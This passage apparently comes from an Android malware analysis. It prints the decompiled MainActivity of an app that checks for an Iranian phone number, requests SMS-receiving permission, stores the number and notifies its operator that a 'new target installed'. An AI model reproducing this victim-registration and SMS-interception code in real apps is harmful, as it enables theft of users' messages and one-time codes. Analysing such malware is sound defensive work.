 The first activity to get executed is always `MainActivity` (We also saw it in the manifest), so let's start there:

```java
package ir.siqe.holo;  
 
import android.content.Intent;  
import android.content.SharedPreferences;  
import android.os.Bundle;  
import android.view.View;  
import android.widget.EditText;  
import android.widget.Toast;  
import androidx.appcompat.app.AppCompatActivity;  
import androidx.core.app.ActivityCompat;  
 
public class MainActivity extends AppCompatActivity {  
    public void onCreate(Bundle bundle) {  
        super.onCreate(bundle);  
        setContentView(R.layout.activity_main);  
        SharedPreferences.Editor edit = getSharedPreferences("info", 0).edit();  
        findViewById(R.id.go).setOnClickListener(new View.OnClickListener(this, (EditText) findViewById(R.id.idetify_phone), edit) {
            final MainActivity this$0;  
            final EditText val$editText;  
            final SharedPreferences.Editor val$editor;  
 
            {  
                this.this$0 = this;  
                this.val$editText = r5;  
                this.val$editor = edit;  
            }  
   
            public void onClick(View view) {  
                if (!this.val$editText.getText().toString().matches("(\\+98|0)?9\\d{9}")) {  
                    Toast.makeText(this.this$0, "شماره موبایل معتبر نیست", 0).show();  
                    return;  
                }  
                ActivityCompat.requestPermissions(this.this$0, new String[]{"android.permission.RECEIVE_SMS"}, 0);  
                if (Integer.valueOf(ActivityCompat.checkSelfPermission(this.this$0, "android.permission.RECEIVE_SMS")).intValue() == 0) {  
                    this.val$editor.putString("phone", this.val$editText.getText().toString());  
                    this.val$editor.commit();  
                    new connect(this.val$editText.getText().toString(), "تارگت جدید نصب کرد", this.this$0);  
                    this.this$0.startActivity(new Intent(this.this$0, MainActivity2.class));  
                }  
            }  
        });  
    }  
}
```
